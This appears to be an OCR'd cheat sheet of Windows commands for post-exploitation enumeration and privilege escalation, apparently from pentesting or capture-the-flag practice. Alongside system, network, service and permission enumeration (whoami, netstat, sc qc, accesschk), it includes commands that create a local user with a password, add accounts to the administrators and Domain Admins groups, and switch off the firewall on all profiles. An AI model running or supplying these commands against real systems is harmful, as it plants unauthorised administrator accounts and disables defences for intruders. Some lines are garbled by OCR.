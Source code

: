 hostname

echo %username%

net users

net user John fadf24as /ADD

net localgroup administrators Johnnet /add
net group "Domain Admins" john.johnson /ADD /DOMAIN



whoami /priv
	/groups
	/user

ipconfig /all

route print

arp -A

netstat -ano

tasklist /SVC

#firewall stuff is WinXP sp2+

netsh firewall show state

netsh firewall show config

netsh advfirewall set allprofiles state off

schtasks /query /fo LIST /v
==========================================Services===================================

tasklist /SVC
net start

sc qc "Audiosrv"

sc query "Audiosrv"

#Can you even stop the service?
sc stop "Audiosrv"


DRIVERQUERY

# Service perms
sc query
sc qc [service_name]

#Accesschk Stuff
# (always do this first!!!!!)
accesschk.exe /accepteula

accesschk.exe -ucqv * /accepteula
